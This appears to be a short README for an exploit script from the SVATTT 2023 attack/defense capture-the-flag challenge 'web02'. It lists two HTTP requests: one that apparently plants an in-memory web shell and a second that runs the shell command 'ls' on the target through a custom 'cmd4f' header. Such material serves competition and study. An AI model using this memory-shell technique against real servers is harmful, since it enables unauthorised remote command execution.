 # SVATTT 2023 - Attack/Defense - web02
web02 exploit script

Request 1: `GET /http://PUBLIC_IP:8082/tiktikboom`

![log](images/log.png)

Request 2:
```
GET /http://PUBLIC_IP:8082/memshell
User-Agent: 123
cmd4f: ls
```

![ls](images/ls.png)


**Blog**: https://hackmd.io/@devme4f/rypHqTzPT
